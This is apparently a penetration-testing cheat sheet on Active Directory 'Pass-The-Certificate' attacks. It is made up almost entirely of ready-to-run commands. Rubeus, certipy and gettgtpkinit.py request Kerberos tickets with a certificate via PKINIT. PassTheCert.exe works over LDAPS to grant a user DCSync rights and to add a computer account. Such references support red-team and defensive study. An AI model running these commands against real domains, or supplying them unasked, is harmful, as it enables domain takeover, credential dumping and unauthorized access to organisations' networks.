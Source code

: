 ## Pass-The-Certificate

### PKINIT

With a certificate valid for authentication, it is possible to request a TGT via the **PKINIT** protocol.

#### Windows

```powershell
# Information about a cert file
certutil -v -dump admin.pfx

# From a Base64 PFX
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

#### Linux

```bash
# Authentication with PFX/P12 file
certipy auth -pfx 'user.pfx'

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

### Schannel

If PKINIT is not working on the domain, LDAPS can be used to pass the certificate with `PassTheCert`.

#### Windows

* Grant DCSync rights to an user

```powershell
./PassTheCert.exe --server dc.contoso.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --sid <user_SID>

#To restore
./PassTheCert.exe --server dc.contoso.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --restore restoration_file.txt
```

* Add computer account

```powershell
./PassTheCert.exe --server dc.contoso.local --cert-path C:\cert.pfx --add-computer --computer-name TEST$ --computer-password <password>
```
